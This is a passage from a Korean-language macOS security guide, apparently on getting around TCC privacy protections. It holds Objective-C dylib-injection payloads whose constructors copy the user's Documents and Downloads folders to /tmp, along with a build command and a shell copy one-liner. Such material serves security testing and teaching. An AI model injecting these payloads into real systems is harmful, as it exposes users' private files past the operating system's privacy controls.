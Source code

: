 ```objectivec
NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Documents"];
NSString *tmpPhotosPath = @"/tmp/documents";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
`$HOME/`Documents를 `/tmp/documents`로 복사합니다.
```bash
cp -r "$HOME/Documents" "/tmp/documents"
```
{% endtab %}
{% endtabs %}

### 다운로드

* **권한**: 없음
* **TCC**: `kTCCServiceSystemPolicyDownloadsFolder`

{% tabs %}
{% tab title="ObjetiveC" %}
`$HOME/Downloads`를 `/tmp/downloads`로 복사합니다.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Downloads"];
NSString *tmpPhotosPath = @"/tmp/downloads";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```